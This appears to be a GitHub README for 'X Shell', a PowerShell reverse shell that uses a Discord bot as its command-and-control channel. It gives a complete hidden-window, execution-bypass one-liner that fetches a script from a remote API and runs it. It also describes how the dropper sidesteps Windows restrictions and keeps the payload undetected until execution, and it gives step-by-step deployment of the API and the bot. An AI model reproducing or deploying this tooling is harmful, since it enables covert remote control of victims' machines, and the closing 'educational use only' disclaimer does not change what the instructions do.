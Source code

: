 ![banner](/src/banner.png)
# X Shell

X Shell is a PowerShell-based reverse shell that uses a Discord server as its command-and-control (C2) infrastructure. It dynamically creates a dedicated Discord channel for each user who executes the script, allowing for organized command execution and response tracking.

## How It Works
Revshell X consists of three main components:

### 1. **PowerShell Dropper**
Windows 11 limits certain execution options, such as `-windowStyle hidden` when run from the Run dialog (`Win + R`). To bypass this, Revshell X uses a lightweight **dropper**. This dropper retrieves the actual PowerShell script from a remote API and executes it.

To deploy the reverse shell on a target machine, simply execute the following PowerShell command:
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://xyz.vercel.app/ -H @{'Authorization'='Bearer xyzxyz'}; iex $r.Content"
```
This command downloads and executes the dropper, which in turn fetches and runs the main script.

### 2. **Backend API**
The backend API authenticates requests and responds with the full PowerShell script when properly requested. This allows the script to remain undetected on the target machine until execution. The API is responsible for:
- Serving the **dropper script** upon request.
- Returning the **full reverse shell script** to authenticated requests.

#### **Deploying the API**
The full API code is located under the `/API/` directory. To deploy it, follow these steps:
1. **Create a private GitHub repository** and upload all files from the `/API/` directory.
2. **Deploy to Vercel** by linking your GitHub repository to [Vercel](https://vercel.com/).
3. **Update `index.js` in the API**:
    - Modify **lines 27 and 28** to set authentication tokens.
    - Modify **lines 30 and 35** to return the correct PowerShell script.
4. **Deploy the API** and note the generated URL.

### 3. **Discord C2 Server**
The core reverse shell logic uses a **Discord bot** to communicate with a designated **Discord server**. When the script runs, it:
- Creates a new **channel** in a predefined category.
- Reads messages from the channel for incoming commands.
- Executes the received PowerShell commands on the target machine.
- Returns command output back to the channel.

## Requirements
To set up Revshell X, you will need:
- A **Discord server**
- A **Discord bot** with appropriate permissions
- The **Channel ID** and **Category ID** where channels will be created
- The **API URL** for the dropper

## Installation & Setup
1. **Create a Discord bot**
    - Go to the [Discord Developer Portal](https://discord.com/developers/applications)
    - Create a new bot and get its **token**
    - Assign necessary permissions (Manage Channels, Read Messages, Send Messages, etc.)

2. **Set up the API**
    - Deploy the API using the steps mentioned above.
    - Ensure the API logs or restricts access securely.

3. **Modify the script with your bot details**
    - Update `$t`, `$s`, and `$categoryID` in the script.

4. **Deploy the dropper**
    - Use the provided PowerShell one-liner to execute the dropper.

## [Discord Server Template](https://discord.new/AFkzNqmAdmex)
For convenience, a preconfigured **Discord server template** is provided, which includes:
- A category for dynamically created channels
- Logging channels (optional)

## Disclaimer
This tool is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is illegal and may result in criminal charges. Use responsibly.

